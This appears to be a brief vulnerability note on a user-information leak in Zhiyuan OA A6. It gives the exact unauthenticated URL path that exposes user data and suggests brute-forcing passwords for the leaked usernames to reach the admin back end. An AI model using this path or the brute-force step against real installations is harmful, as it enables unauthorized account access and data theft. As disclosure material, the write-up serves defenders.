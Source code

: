# Zhiyuan OA A6 initDataAssess.jsp User sensitive information leak

## Vulnerability Description

Zhiyuan OA A6 initDataAssess.jsp There is a leak of user sensitive information

You can use the username to blast the user password to enter the background for further attacks

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA A6</span>

## Network surveying and mapping



## Vulnerability reappears

Visit the following URL to reveal user information

```plain
http://xxx.xxx.xxx.xxx/yyoa/assess/js/initDataAssess.jsp
```